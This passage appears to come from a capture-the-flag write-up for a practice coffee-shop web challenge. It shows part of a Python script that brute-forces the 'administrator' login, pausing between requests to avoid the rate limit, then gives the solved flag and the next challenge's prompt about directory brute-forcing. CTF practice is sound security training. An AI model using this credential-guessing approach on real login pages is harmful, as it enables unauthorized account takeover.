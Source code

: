 ```python
        response = requests.post(URL, json=data, headers=headers, allow_redirects=True)

        print("#", end="", flush=True)
        time.sleep(0.5)  # avoid triggering rate limit

        # Check if login successful
        if "Wrong password" not in response.text:
            print("]")
            print(response.text)
            print(f"[+] SUCCESS! Username: {username} | Password: {password}")
            return

    print("]")
    print("[!] Password not found.")

def main():
    usernames = read_file(username_file)
    passwords = read_file(password_file)

    # print('- ' * 50)
    # print(f"Scanning {len(usernames)} usernames...")
    # print('- ' * 50)

    # valid_user = find_valid_username(usernames)
    # if not valid_user:
    #     print("[!] No valid username found.")
    #     return

    # print(f"\n[+] Valid username found: {valid_user}")

    brute_force_password("administrator", passwords) # was not running at once so, had to find the usernames first then got the admin username and ran for it and found the flag

if __name__ == "__main__":
    main()
```

This script is not well cleaned or optimized. Just made it work tweaking the values. 

### Final Flag: hwj{coffee_admin_pwned}

---

## Challenge: Brewed with Bugs 2

### Description:

Category: Web Exploitation
Points: 150
Prompt:
Rumor says there’s a hidden menu the developers didn’t want anyone to see.
It’s buried somewhere deep in the site’s structure. With the right directory brute
force, you might just find a secret blend that leads to the second flag.
[https://vuln-coffee-shop.onrender.com/](https://vuln-coffee-shop.onrender.com/)
